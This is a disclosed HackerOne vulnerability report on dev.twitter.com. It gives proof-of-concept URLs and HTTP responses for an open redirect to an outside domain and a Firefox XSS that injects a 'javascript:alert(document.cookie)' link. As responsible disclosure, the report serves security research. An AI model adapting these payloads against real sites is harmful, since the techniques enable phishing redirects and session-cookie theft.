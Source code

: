 # [dev.twitter.com] XSS and Open Redirect

## Report Details
- **Report ID**: 260744
- **URL**: https://hackerone.com/reports/260744
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-08-16T16:30:43.579Z
- **Disclosed**: 2017-09-29T23:07:42.313Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Description
===
XSS via Request-URI which requires user interaction. The vulnerability is caused by the difference in the Request-URI processing in the Location header and in the link on the page.
By creating an incorrect port in the link on the Location header, you can block the redirection for the FireFox browser. Next, using the difference in the processing, generate a "javascript" link on the page.

PoC: Open Redirect
===
Browsers: Chrome, FireFox, Opera
```
https://dev.twitter.com/https:/%5cblackfan.ru/
```
HTTP Response:
```http
HTTP/1.1 302 Found
connection: close
...
location: https:/\blackfan.ru
```

PoC: XSS
===
Browsers: FireFox
Steps to reproduce: Open and click the link
```
https://dev.twitter.com//x:1/:///%01javascript:alert(document.cookie)/
```
HTTP Response:
```http
HTTP/1.1 302 Found
connection: close
...
location: //x:1/://dev.twitter.com/javascript:alert(document.cookie)
...


<p>You should be redirected automatically to target URL: <a href="javascript:alert(document.cookie)">javascript:alert(document.cookie)</a>.  If not click the link.
```
{F213436}


## Attachments
- Screenshot_at_20-24-11.png
